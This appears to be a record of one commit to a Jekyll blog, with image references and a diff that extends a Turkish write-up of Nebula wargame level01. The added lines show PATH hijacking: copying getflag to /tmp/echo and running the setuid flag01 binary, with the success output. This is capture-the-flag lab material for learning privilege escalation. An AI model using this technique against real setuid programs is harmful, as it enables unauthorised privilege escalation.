

Before and after one commit to burcudemiralp/burcudemiralp.github.io, a Jekyll site: the page built from _posts/2018-02-23-nebula-writeup.md, in a window 1280 px wide and 900 px high, scrolled down 2184 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced.

Commit message:
Update 2018-02-23-nebula-writeup.md

```diff
--- a/_posts/2018-02-23-nebula-writeup.md
+++ b/_posts/2018-02-23-nebula-writeup.md
@@ -89,3 +89,11 @@ PATH değişkenine yeni bir dizin ekliyoruz.
     level01@nebula:/home/flag01$ echo $PATH
     /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
 {% endraw %}
+Çalıştırmak istediğimiz dosyayı /tmp altına echo ismiyle kaydediyoruz.
+{% raw %}
+    level01@nebula:/home/flag01$ cp /bin/getflag /tmp/echo
+{% endraw %}
+{% raw %}
+    level01@nebula:/home/flag01$ ./flag01
+    You have successfully executed getflag on a target account
+{% endraw %}
```
